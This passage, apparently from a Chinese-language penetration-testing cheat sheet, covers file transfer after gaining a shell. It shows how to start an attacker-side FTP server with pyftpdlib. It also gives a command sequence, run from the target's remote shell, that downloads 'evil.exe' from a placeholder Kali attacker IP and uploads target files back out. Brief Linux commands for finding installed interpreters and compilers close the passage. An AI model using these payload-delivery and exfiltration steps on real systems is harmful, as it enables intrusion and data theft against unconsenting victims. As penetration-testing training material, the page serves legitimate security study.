     攻击端使用 python 起 ftp:
    ```
    apt-get install python-pyftpdlib
    mkdir /ftp
    cd /ftp/
    python -m pyftpdlib -p 21
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意

- **目标机**
    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    windows下
    ```
    ftp
    username
    password
    get file
    exit 或者 bye
    ```
    ```
    ftp -s:test.txt
    ```

### Linux

**文章**
- [busybox docker 受限环境下回传文件](https://landgrey.me/blog/3/)

**查看语言/代码支持情况**
```bash
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
```
